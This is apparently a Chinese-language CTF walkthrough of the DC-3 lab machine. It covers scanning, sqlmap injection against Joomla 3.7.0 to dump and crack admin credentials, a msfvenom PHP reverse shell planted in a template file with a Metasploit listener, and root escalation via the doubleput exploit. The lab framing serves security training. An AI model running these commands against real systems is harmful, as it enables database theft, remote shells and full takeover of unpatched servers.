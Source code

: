 
# 0x00环境

攻击机：kali（192.168.1.28）

靶机：DC-3（192.168.1.）


# 0x01实战


## 端口扫描

```
nmap -sV -A -p- 192.168.1.11
```

![image-20220110203517991.png](./assets/1652256194361-2524b082-b229-477f-b617-b79465006747.png)

可以看到目标机开放了80端口HTTP服务


## 目录扫描

可以看到网站后台路径

![image-20220110204506347.png](./assets/1652256198478-a01eb2d4-dbd3-45af-ba37-9c16481360b7.png)

在浏览器访问网站后台，通过标题可以发现使用的是joomla搭建的站点

![image-20220110204514438.png](./assets/1652256202188-c8f13d83-e81c-4597-ae1c-53c8374f3b2d.png)


## 漏洞扫描

已经知道是使用的joomla搭建的站点那么使用joomscan扫描站点

[不知道什么是joomscan?点这里](https://www.freebuf.com/sectool/181440.html)

```
joomscan --url http://192.168.1.11
```

![image-20220110204557133.png](./assets/1652256207763-5a96fe0a-fbc1-45a4-88dc-80925012127d.png)

从结果可以看到 joomla的版本是 3.7.0

查看joomla 3.7.0的漏洞有哪些

```
searchsploit joomla 3.7.0
```

![image-20220110204618326.png](./assets/1652256212029-e0578894-125c-4994-895a-8c6e4565b027.png)

可以发现joomla 3.7.0 存在SQL注入漏洞

查看42033.txt的内容

![image-20220110204807674.png](./assets/1652256215174-262be897-e1a4-4d75-a437-693ffc318999.png)

文档中指出可以使用sqlmap进行注入 并将参数列了出来


## 漏洞利用

使用sqlmap扫描，暴库

```
sqlmap -u "http://192.168.1.11/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

![image-20220110205106024.png](./assets/1652256221047-9a27c003-22a5-4e97-9492-e2f20d8c9f9b.png)

爆表

```
sqlmap -u "http://192.168.1.11/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb --tables -p list[fullordering]
```

![image-20220110205257745.png](./assets/1652256225003-39ef2db6-b0cd-4eaf-a561-b915f46b3045.png)

爆字段

```
sqlmap -u "http://192.168.1.11/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D "joomladb" -T "#__users" --columns -p list[fullordering]
```

![image-20220110205625696.png](./assets/1652256228844-accac433-9b27-4402-b76d-a2edf7d670b9.png)

拖库

```
sqlmap -u "http://192.168.1.11/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D "joomladb" -T "#__users" -C "name,password" --dump -p list[fullordering]
```

![image-20220110205722192.png](./assets/1652256232749-97da86f2-c589-44cb-8b56-0679427cae83.png)

得到了admin和密码的哈希值

将密码存入文件password中使用john破解

```
john password
```

![image-20220110205855317.png](./assets/1652256235949-5385e53e-a1f4-4278-a5b7-f5e96ec0322b.png)

得到了密码snoopy

登陆后台

![image-20220110205928274.png](./assets/1652256239394-868519b5-9676-490c-ba25-ee24799dd107.png)

在template栏中发现可以写文件，我们可以写一个木马上去

![image-20220110210247843.png](./assets/1652256243049-30ea4c2a-4e93-4cd8-856f-ebf61b7fa98d.png)


## 反弹shell

使用msfvenom生成一个php木马文件

```
msfvenom -p php/meterpreter/reverse_tcp  lhost=192.168.1.28 port=4444 -f raw
```

![image-20220110211818024.png](./assets/1652256247617-e4d301bb-cd3a-40c0-a4e3-056439f82c67.png)

将error.php文件内容替换为生成的木马内容保存

![image-20220110212201986.png](./assets/1652256253133-deb863e1-4346-4f62-9d00-790587b2d0f4.png)

创建监听

```
┌──(root💀kali)-[~]
└─# msfconsole
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload php/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 192.168.1.28
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

在浏览器中访问木马文件就得知道木马文件所在的位置

![image-20220110212256338.png](./assets/1652256256478-508db622-e3cd-4ba3-90ca-1e596c893675.png)

```
http://192.168.1.11/templates/beez3/error.php
```

成功反弹shell

![image-20220110212314866.png](./assets/1652256260909-c8134e9a-0cd8-46b6-b8ca-68d51ef866fa.png)


## 提权

进入shell，并使界面看起来正常

```
shell
python -c 'import pty; pty.spawn("/bin/bash")'
```

![image-20220110212754433.png](./assets/1652256265639-360a7de5-7ddf-42f4-9e31-756a84577f5e.png)

查看系统版本

```
cat /proc/version
cat /etc/issue
```

![image-20220110212917909.png](./assets/1652256268955-c5c8557f-12a0-40ca-b4c9-a0255e0bafb1.png)

查找Ubuntu16.04的提权漏洞

```
searchsploit Ubuntu 16.04
```

![image-20220110213039355.png](./assets/1652256272323-7313e9ba-e1be-4480-9240-bb4e085a4746.png)

查看39772.txt的内容

```
cat /usr/share/exploitdb/exploits/linux/local/39772.txt
```

在文末可以看到利用方法和下载地址

![image-20220110213400265.png](./assets/1652256276825-892161df-ddbd-49a5-9c92-8520e17135a9.png)

将文件下载到攻击机中并上传到靶机的/tmp目录

```
upload /root/39772.zip /tmp
```

![image-20220110213852195.png](./assets/1652256281364-6e58070c-b239-4fc3-a365-942085999709.png)

进入shell解压

![image-20220110214210063.png](./assets/1652256288370-c9dd8843-b368-4955-8917-667e3dc8984b.png)

编译

```
./compile.sh
```

![image-20220110214359617.png](./assets/1652256292932-3a493d4f-be09-4c8e-8ea9-40ad401420c8.png)

提权

```
./doubleput
```

![image-20220110214703808.png](./assets/1652256299833-34e131d2-c760-4774-9cbd-ef8f85b664eb.png)


## final-flag

在rootg根目录下找到flag

![image-20220110214935672.png](./assets/1652256305412-6b1fa477-4ba3-4204-98c2-b4c8fda8b770.png)
